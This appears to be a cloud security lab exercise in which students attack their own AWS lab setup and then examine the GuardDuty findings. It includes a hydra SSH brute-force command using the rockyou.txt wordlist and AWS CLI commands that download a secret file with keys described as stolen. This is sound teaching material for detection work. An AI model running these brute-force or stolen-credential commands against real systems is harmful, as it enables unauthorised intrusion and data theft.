




# Exercise 3 - Attack Simulation

Now you will run scripts that will simulate the following attack conditions: Making an SSH connection to the application server using brute force password cracking. Capturing secret recipe files from the s3 bucket using stolen API keys.
____

## Task 1: Brute force attack to exploit SSH ports facing the internet and an insecure configuration on the server

### 1. Log into the attack simulation server using your SSH key-pair

````bash
ssh -i <your private key file> ubuntu@<AttackInstanceIP>
````

### 2. Run the below commands to start a brute force attack against the application server. You will need the application server hostname for this

````bash
date
hydra -l ubuntu -P rockyou.txt ssh://<YourApplicationServerDnsNameHere>
````

You should see output similar to the following.


<p style='text-align: center; margin-right: 3em; font-family: Serif;'><b> Attack simulation server using your SSH key-pair</b></p>

### 3. Answer the following questions

1. What findings were detected related to the brute force attack?

2. Take a screenshot of the Guard Duty findings specific to the attack. Title this screenshot E3T1_guardduty.png.

3. Research the AWS Guard Duty documentation page and explain how GuardDuty may have detected this attack - i.e. what was its source of information?

Submit text answers in E3T1.txt.

### Deliverables

* E3T1_guardduty.png - Screenshot of Guard Duty findings specific to the Exercise 3, Task 1 attack.


<p style='text-align: center; margin-right: 3em; font-family: Serif;'><b> ScreenShot Of GuarDuty</b></p>

* [E3T1.txt](./E3T1.txt) - Answer to the questions at the end of Exercise 3, Task 1.

## Task 2: Accessing Secret Recipe Data File from S3

Imagine a scenario where API keys used by the application server to read data from S3 were discovered and stolen by the brute force attack. This provides the attack instance the same API privileges as the application instance. We can test this scenario by attempting to use the API to read data from the secrets S3 bucket.

### 1. Make sure you're still logged into the attack instance and run the following API calls to view and download files from the secret recipes S3 bucket. You will need the name of the S3 bucket for this

````bash
# view the files in the secret recipes bucket
aws s3 ls  s3://<BucketNameRecipesSecret>/ --region us-east-1

# download the files
aws s3 cp s3://<BucketNameRecipesSecret>/secret_recipe.txt  .  --region us-east-1

# view contents of the file
cat secret_recipe.txt
````


<p style='text-align: center; margin-right: 3em; font-family: Serif;'><b> View Files</b></p>

`**Deliverables**:

* **E3T2_s3breach.png** - Screenshot showing the resulting breach after the brute force attack.


<p style='text-align: center; margin-right: 3em; font-family: Serif;'><b> Screenshot showing the breach</b></p>
